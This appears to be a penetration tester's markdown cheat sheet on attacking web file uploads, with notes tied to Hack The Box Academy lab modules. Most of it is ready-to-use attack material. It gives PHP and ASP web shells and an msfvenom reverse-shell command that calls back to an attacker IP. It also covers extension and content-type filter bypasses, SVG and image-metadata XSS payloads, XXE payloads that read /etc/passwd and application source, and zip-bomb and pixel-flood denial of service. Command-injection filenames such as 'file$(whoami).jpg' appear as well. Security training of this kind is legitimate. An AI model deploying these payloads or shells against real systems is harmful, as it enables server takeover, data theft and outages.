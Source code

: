 # FILE UPLOAD

## Payloads
- Web-Extensions: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- Basic PHP File Read: `<?php file_get_contents('/etc/passwd'); ?>	`
- Basic PHP Command Execution: `<?php system('hostname'); ?>`
- Basic PHP Web Shell: `<?php system($_REQUEST['cmd']); ?>`
- Basic ASP Web Shell: `<% eval request('cmd') %>`
- Generate PHP reverse shell: `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`
- Phpbash-Interactive web shell: https://github.com/Arrexel/phpbash
- Php reverse Shell: https://github.com/pentestmonkey/php-reverse-shell
- All web and Reverse Shell: https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- Bash script that generates all permutations of the file name
  ```bash
  for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
  done
  ```
---
### Blacklist Bypass

| File Extension	| Purpose |
| ---------- | ----------- |
| shell.phtml |	Uncommon Extension |
| shell.pHp	| Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)	| List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)	| List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)	| List of Web Extensions |

### Whitelist Bypass

| File Extension	| Purpose |
| ---------- | ----------- |
| shell.jpg.php	| Double Extension |
| shell.php.jpg	| Reverse Double Extension |
| %20, %0a, %00, %0d0a, /, .\, ., … |	Character Injection - Before/After Extension |

### Content/Type Bypass
| File Extension	| Purpose |
| ---------- | ----------- |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)	| List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)	| List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)	| List of File Signatures/Magic Bytes |
| [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) | Link for Magicbytes |
| [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) | Link for File Signatures |

### Limited Uploads
| Potential Attack |	File Types |
| ---------- | ----------- |
| XSS	| HTML, JS, SVG, GIF |
| XXE/SSRF	| XML, SVG, PDF, PPT, DOC |
| DoS	| ZIP, JPG, PNG |

---



## Arbitary file uploads
https://enterprise.hackthebox.com/academy-lab/30000/2125/modules/136/1291

### Stored XSS :
- web application allows us to upload HTML files. Although HTML files won't allow us to execute code (e.g., PHP), it would still be possible to implement JavaScript code within them to carry an XSS or CSRF attack on whoever visits the uploaded HTML page. If the target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines.
- Web applications that display an image's metadata after its upload. For such web applications, we can include an XSS payload in one of the Metadata parameters that accept raw text, like the Comment or Artist parameters, as follows:
  
    ```bash
    $ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
    $ exiftool HTB.jpg
    ...SNIP...
    Comment                         :  "><img src=1 onerror=alert(window.origin)>
    ```
    
    the Comment parameter was updated to our XSS payload. When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack.
  
- If we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
  
- XSS attacks can also be carried with SVG images, along with several other attacks. Scalable Vector Graphics (SVG) images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload.
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
        <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
        <script type="text/javascript">alert(window.origin);</script>
    </svg>
    ```
    Once we upload the image to the web application, the XSS payload will be triggered whenever the image is displayed.

### XEE:

- With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
  Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (/etc/passwd) printed on the page or shown in the page source.

- To use XXE to read source code in PHP web applications
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
  Once the SVG image is displayed, we should get the base64 encoded content of index.php, which we can decode to read the source code.

- Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like PDF, Word Documents, PowerPoint Documents, among many others. All of these documents include XML data within them to specify their format and structure. Suppose a web application used a document viewer that is vulnerable to XXE and allowed uploading any of these documents. In that case, we may also modify their XML data to include the malicious XXE elements, and we would be able to carry a blind XXE attack on the back-end web server.
- Another similar attack that is also achievable through these file types is an SSRF attack. We may utilize the XXE vulnerability to enumerate the internally available services or even call private APIs to perform private actions. For more about SSRF, you may refer to the Server-side Attacks module.

### DoS
- **Decompression Bomb** : If a web application automatically unzips a ZIP archive, it is possible to upload a malicious archive containing nested ZIP archives within it, which can eventually lead to many Petabytes of data, resulting in a crash on the back-end server.
- **Pixel Flood** : We can create any JPG image file with any image size (e.g. 500x500), and then manually modify its compression data to say it has a size of (0xffff x 0xffff), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.
- If the upload function is vulnerable to directory traversal, we may also attempt uploading files to a different directory (e.g. ../../../etc/passwd), which may also cause the server to crash. 

## Other 
https://enterprise.hackthebox.com/academy-lab/30000/2125/modules/136/1292

### Injection
- OS Command in file names:
  - ```file$(whoami).jpg```
  - ```file`whoami`.jpg```
  - ```file.jpg||whoami```
- XSS PAyload:
  - ```<script>alert(window.origin);</script>```
- SQL Query:
    - ```file';select+sleep(5);--.jpg```
 
### Upload Directory Disclosure
- fuzzing to look for the uploads directory or even use other vulnerabilities (e.g., LFI/XXE) to find where the uploaded files are by reading the web applications source code
- Error Message
  - uploading a file with a name that already exists
  - sending two identical requests simultaneously
  - uploading a file with an overly long name (e.g., 5,000 characters)
- Windows-Specific techniques
  - attack is using reserved characters, such as (|, <, >, *, or ?), which are usually reserved for special uses like wildcards.
  - Windows reserved names for the uploaded file name, like (CON, COM1, LPT1, or NUL), which may also cause an error as the web application will not be allowed to write a file with this name.
  - utilize the Windows 8.3 Filename Convention to overwrite existing files or refer to files that do not exist
  - file called (hackthebox.txt) we can use (HAC\~1.TXT) or (HAC\~2.TXT), where the digit represents the order of the matching files that start with (HAC). As Windows still supports this convention, we can write a file called (e.g. WEB~.CONF) to overwrite the web.conf file.

    
